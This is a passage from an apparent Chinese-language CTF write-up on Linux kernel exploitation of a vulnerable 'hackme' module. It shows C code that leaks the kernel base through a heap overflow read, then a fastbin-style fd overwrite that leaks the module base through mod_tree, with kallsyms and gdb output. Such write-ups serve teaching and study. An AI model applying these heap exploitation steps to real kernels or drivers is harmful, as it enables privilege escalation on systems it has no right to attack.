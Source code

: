 如上，第一个堆块向下溢出`0x200`，偏移`0x28`处的地址就是内核符号`sysctl_table_root`的地址。

泄漏代码：

```c
	// leak kernel address
	read_object(0, mem, 0x200, -0x200);
	kernel_addr = ((size_t *) mem)[5] - 0x849ae0;			// sysctl_table_root offset
	printf("[*] Leaked kernel addr: 0x%lx\n", kernel_addr);

```

成功泄漏

```assembly
[*] Leaked kernel addr: 0xffffffffad600000
/home/pwn # more /proc/kallsyms 
ffffffffad600000 T startup_64
```

##### 模块基地址

类似于用户态的`heap attack`，最佳的任意地址写实现就是能够分配得到在hackme模块下`.bss`段的全局变量`pool`，这样交叉的结构使得通过构造`pool`内的object，实现任意地址读写。

首先需要泄漏得到hackme模块的基地址，这一点由于已经泄露了内核基地址，我们只需要利用`fastbin attack`修改`fd`指向内核的某一包含模块地址信息的地址，即可泄漏！

在内核中，`mod_tree`结构包含了模块地址信息。

```
/home/pwn # cat /proc/kallsyms | grep mod_tree
ffffffff8c86df00 t __mod_tree_remove
ffffffff8c86e720 t __mod_tree_insert
ffffffff8d011000 d mod_tree
```

其偏移是`0x811000`。

其内存中有加载的内核模块地址信息：

```assembly
gdb-peda$ x/40gx 0xffffffff8d011000
0xffffffff8d011000:	0x0000000000000006	0xffffffffc01ac320
0xffffffff8d011010:	0xffffffffc01ac338	0xffffffffc01aa000
0xffffffff8d011020:	0xffffffffc01b0000	0x0000000000000000
0xffffffff8d011030:	0x0000000000000000	0x0000000000000000
0xffffffff8d011040:	0xffffffff8d011040	0xffffffff8d011040


hackme 16384 - - Live 0xffffffffc01aa000 (O)
```

可以看到，在mod_tree偏移`0x18`位置存着hackme模块基地址。

因此，利用`fastbin attack`攻击，修改fd为`mod_tree`附近地址（利用向下溢出读，防止修改内核数据）

泄漏代码：

```c
	// alloc to have mod_tree
	memset(mem, 'a', 0x100);
	*(size_t*)mem = (kernel_addr + 0x811000 + 0x50);		// mod_tree + 0x50; avoid overwrite mod_tree
	// fake 3's fd to mod_tree
	write_object(4, mem, 0x100, -0x100);

	// alloc to get mod_tree
	alloc_object(5, mem, 0x100);			
	alloc_object(6, mem, 0x100);

	// leak hackme address
	read_object(6, mem, 0x50, -0x50);						
```
